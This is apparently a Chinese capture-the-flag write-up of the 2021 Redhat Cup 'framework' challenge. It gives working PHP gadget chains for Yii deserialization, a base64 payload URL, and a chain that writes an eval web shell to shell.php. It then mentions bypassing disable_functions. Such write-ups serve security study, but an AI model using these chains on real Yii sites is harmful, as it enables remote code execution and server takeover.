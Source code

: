# 原创
：  2021红帽杯 framework

# 2021红帽杯 framework

#### 2021红帽杯 framework

## 考点

> 
yii反序列化


## 思路

> 
直接 `/www.zip`发现源码，直接拷贝下来本地运行<br/> yii反序列化可以看看我之前的分析：[文章链接](https://blog.csdn.net/LYJ20010728/article/details/117305569)<br/> phpinfo中可以发现：system、eval之类的一些函数好像都没有效果，设置了disable_functions；assert能用、file_put_contents()也能用


## Payload

> 
POC链


```
&lt;?php
namespace yii\rest{
    class CreateAction{
        public $checkAccess;
        public $id;

        public function __construct(){
            $this-&gt;checkAccess = 'phpinfo';
            $this-&gt;id = '5';
        }
    }
}

namespace Faker{
    use yii\rest\CreateAction;

    class Generator{
        protected $formatters;

        public function __construct(){
            $this-&gt;formatters['close'] = [new CreateAction, 'run'];
        }
    }
}

namespace yii\db{
    use Faker\Generator;

    class BatchQueryResult{
        private $_dataReader;

        public function __construct(){
            $this-&gt;_dataReader = new Generator;
        }
    }
}
namespace{
    echo base64_encode(serialize(new yii\db\BatchQueryResult));
}
?&gt;

```

> 
Payload


```
?r=site%2Fabout&amp;message=TzoyMzoieWlpXGRiXEJhdGNoUXVlcnlSZXN1bHQiOjE6e3M6MzY6IgB5aWlcZGJcQmF0Y2hRdWVyeVJlc3VsdABfZGF0YVJlYWRlciI7TzoxNToiRmFrZXJcR2VuZXJhdG9yIjoxOntzOjEzOiIAKgBmb3JtYXR0ZXJzIjthOjE6e3M6NToiY2xvc2UiO2E6Mjp7aTowO086MjE6InlpaVxyZXN0XENyZWF0ZUFjdGlvbiI6Mjp7czoxMToiY2hlY2tBY2Nlc3MiO3M6NzoicGhwaW5mbyI7czoyOiJpZCI7czoxOiI1Ijt9aToxO3M6MzoicnVuIjt9fX19

```

> 
POC链


```
&lt;?php
namespace yii\rest{
    class CreateAction{
        public $checkAccess;
        public $id;

        public function __construct(){
            $this-&gt;checkAccess = 'assert';
            $this-&gt;id = 'file_put_contents(\'shell.php\',\'&lt;?php eval($_POST[1]);?&gt;\');';
        }
    }
}

namespace Faker{
    use yii\rest\CreateAction;

    class Generator{
        protected $formatters;

        public function __construct(){
            $this-&gt;formatters['close'] = [new CreateAction(), 'run'];
        }
    }
}

namespace yii\db{
    use Faker\Generator;

    class BatchQueryResult{
        private $_dataReader;

        public function __construct(){
            $this-&gt;_dataReader = new Generator;
        }
    }
}
namespace{
    echo base64_encode(serialize(new yii\db\BatchQueryResult));
}
?&gt;

```

> 
上蚁剑，用插件，phpinfo的信息显示这里是Apache/2.4.6 (CentOS) PHP/5.6.40，选择Apache_mod_cgi

